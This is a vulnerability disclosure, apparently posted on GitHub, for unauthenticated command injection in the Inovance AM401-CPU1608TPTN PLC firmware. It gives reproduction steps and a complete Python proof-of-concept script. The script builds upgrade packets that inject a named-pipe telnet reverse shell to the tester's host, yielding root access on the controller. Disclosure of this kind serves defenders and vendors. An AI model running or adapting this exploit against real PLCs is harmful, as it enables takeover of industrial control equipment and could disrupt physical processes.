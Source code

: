 # Summary
Inovance is a listed technology company focusing on industrial automation control and drive technologies. It is also a global solution provider of optics, mechanics, electricity, hydraulics and pneumatics integrating drive, control, motors and precision machinery.

Inovance's AM401_CPU1608TPTN PLC was found to have an unauthorized arbitrary code execution vulnerability.

**Affected firmware versions:** HCPLC_AM401-CPU1608TPTN_21.38.0.0

# Vulnerability Analysis
You can download this firmware at this link: https://n0zom1z0.lanzoup.com/iDHbZ2akjusf

The vulnerability is in the am600_daemon binary file: 
![image](https://github.com/user-attachments/assets/12cf203f-6113-4cad-963f-b598704cef13)

The ExecuteUserProgramUpgrade function concatenates `userFileOfUpgrade.usrHeader.appName` in the data packet to the appName string, 
and then directly executes the `system(appName) command` without filtering the appName parameter, resulting in a command injection vulnerability.


# Vulnerability reproduction
1. Configure the test machine IP to 192.168.1.100, the tested device AM401-CPU1608TP IP to 192.168.1.88, and connect the test machine directly to the tested device. As shown in the figure below:
![image](https://github.com/user-attachments/assets/99b85fd6-5048-478a-b9e7-e239c450528d)

2. Use python3 to run the vulnerability trigger script "poc.py" on the test machine. No username or password is required. Use nc to listen to the port on the test machine to obtain the shell returned by the device under test with **root privileges**.
![image](https://github.com/user-attachments/assets/e61944f5-565f-4cd9-a99c-6310ec18cd16)
![image](https://github.com/user-attachments/assets/e9295534-7a06-4c5a-b001-095df08da049)
![image](https://github.com/user-attachments/assets/524d170a-69bc-43e8-8a09-fb683dc6418e)

# poc.py
```py
import socket,zlib
from time import sleep
def a(a):
    b=65535
    for c in a:
        b^=c
        for d in range(8):
            if((b&1)!=0):
                b=(b>>1)^40961
            else:
                b>>=1
    return b
def b(a,b,c):
    d=a.to_bytes(length=1,byteorder="big",signed=False)
    e=b.to_bytes(length=4,byteorder="big",signed=False)
    f=(len(e)+2).to_bytes(length=2,byteorder="big",signed=False)
    g=b'\xca'+b'\x00\x01'+b'\x00\x05'+b'\x00\x01'+f+d+e+b'\x00'
    h=a(g)
    g+=h.to_bytes(length=2,byteorder='big',signed=False)+b'\xea'
    sleep(0.2)
    c.send(g)
    return c.recv(1024)[9:13]
def c(a,b,c):
    d=a.to_bytes(length=1,byteorder="big",signed=False)
    e=len(b).to_bytes(length=2,byteorder="big",signed=False)
    f=(len(e+b)+2).to_bytes(length=2,byteorder="big",signed=False)
    g=b'\xca'+b'\x00\x01'+b'\x00\x05'+b'\x00\x02'+f+d+e+b+b'\x00'
    h=a(g)
    g+=h.to_bytes(length=2,byteorder='big',signed=False)+b'\xea'
    sleep(0.2)
    c.send(g)
    i=c.recv(1024)
    return print(i)
def d(b):
    c=b'\xca'+b'\x00\x01'+b'\x00\x03'+b'\x00\x05'+b'\x00\x00'+b'\x00'
    d=a(c)
    c+=d.to_bytes(length=2,byteorder='big',signed=False)+b'\xea'
    sleep(0.2)
    b.send(c)
    e=b.recv(1024)
    return e
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
f=("192.168.1.88",10855)
s.connect(f)
g=b';mknod a p; telnet 192.168.1.100 8888 0<a | /bin/sh 1>a;#'
h=len(g).to_bytes(length=1,byteorder='little',signed=False)
i=b'\x0b'+b'projectName'+h+g+b'\x07'+b'cpyName'+b'\x0a'+b'authorName'+b'\x07'+b'verName'+b'\x07\x00'+b'usrInfo'+b'\x08'+b'tpyeName'+b'\x00\x00\x00\x00'+b'\x00\x00\x00\x00'+b'\x00\x00\x00\x00'+b'\x00'*20
j=(len(i)+2).to_bytes(length=2,byteorder='little',signed=False)
k=b'\x01'+b'\x00\x00\x00\x01'+b'\x00'
l=(len(k)+4).to_bytes(length=4,byteorder='little',signed=False)
m=b'UserProgram'+j+i+l+k
n=zlib.crc32(m).to_bytes(length=4,byteorder='little',signed=False)
m+=n
o=b(2,len(m),s)
o=int.from_bytes(o,byteorder='big',signed=False)
if o==0:
    c(2,m,s)
    d(s)

```

# Discoverers
ylqncepu@163.com

https://github.com/N0zoM1z0
